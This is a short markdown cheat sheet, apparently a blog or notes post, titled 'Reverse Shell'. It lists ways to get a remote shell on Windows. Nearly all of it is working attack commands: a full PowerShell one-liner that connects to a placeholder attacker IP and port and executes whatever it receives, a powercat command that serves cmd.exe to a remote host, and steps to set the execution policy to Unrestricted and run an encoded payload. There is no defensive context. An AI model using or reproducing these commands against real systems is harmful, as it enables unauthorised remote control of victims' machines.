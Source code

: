 ```yaml
---
layout: post
title: Reverse Shell
tags: [netcat,powershell,powercat]
description: Ways to get a reverse shell
---
```


## Windows
### PowerShell
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close()"
```

### Powercat
```powershell
powercat -c <IP> -p <PORT> -e cmd.exe
```

#### Encripted payload
Enable script execution
```powershell
> Set-ExecutionPolicy Unrestricted
> powercat -c <IP> -p <PORT> -e cmd.exe -ge > reverseshell.ps1
> powershell -E AaQBtAEUAbgBkACgAIgBgAHIAI[...]
```


